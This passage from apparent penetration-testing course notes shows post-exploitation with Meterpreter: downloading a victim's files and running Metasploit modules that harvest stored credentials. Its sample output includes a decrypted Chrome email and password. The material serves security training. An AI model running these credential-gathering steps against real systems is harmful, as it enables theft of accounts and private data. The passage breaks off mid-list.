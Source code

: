   Once we have located the file we need, we can download it to our machine with the command `download`. We can use this command to retrieve all the files we need.
    For example we can search for IM logs like Skype, Windows Live Messenger, software configuration files such as FTP clients, SVN clients, and so on, and then download the files locally in order to inspect them.

    As you can imagine, the kind of files to retrieve differs from victim to victim: web browser history is a good place to look, since you can find internal corporate network information.

  Once we have downloaded and analyzed files on the remote file system, we can move on with our investigation and start searching for credentials stored on the system.
    We can use Metasploit modules or use third party software ([Nirsoft][http://www.nirsoft.net/] has many of these tools for windows)

      The modules that Metasploit offers can be found in the `post/windows/gather/credentials` path:
        ```
        meterpreter > run post/windows/gather/credentials/
        run post/windows/gather/credentials/bulletproof_ftp
        run post/windows/gather/credentials/coreftp
        run post/windows/gather/credentials/credential_collector
        ...
        ```

    Besides scripts stored in the credentials folder, it is always useful to give a look to the scripts stored in the parent path.
      - `enum_chrome`
        For example the `enum_chrome` script can be used tot gather credentials stored in Google Chrome.
          ```
          meterpreter > run post/windows/gather/enum_chrome

          [*] Running as user 'els\els' ...
          [*] Extracting data for user 'els' ...
          ...
          ```

        At the end of the output we can see that the script was able to decrypt the data. If we inspect the file created, we will see the plain-text credentials stored in it:
          ```
          [*] => Google Now
          [*] Decrypted data saved in: /root/.msf5/loot/201603033113839_default_192.168.102.157_chrome.decrypted_412961.txt
          ```
          |  <br>
          V
          ```
          stduser@les:~$ cat /root/.msf5/loot/201603033113839_default_192.168.102.157_chrome.decrypted_412961.txt
          Decrypted data
          ==============

            Name                 Decrypted Data         Origin
            ----                 --------------         ------
            elstarget@gmail.com   Vbk19jlaDry9AgfgAY    https://accounts.google.com/ServiceLoginAuth
          ```
      - `multi`
        Notice that other gathering scripts are available under the path `post/multi/gather`
          ```
          meterpreter > run post/multi/gather
          run post/multi/gather/apple_ios_backup
          run post/multi/gather/check_malware
          run post/multi/gather/dbvis_enum
          run post/multi/gather/dns_bruteforce
          ...
          ```
  - `enum_application`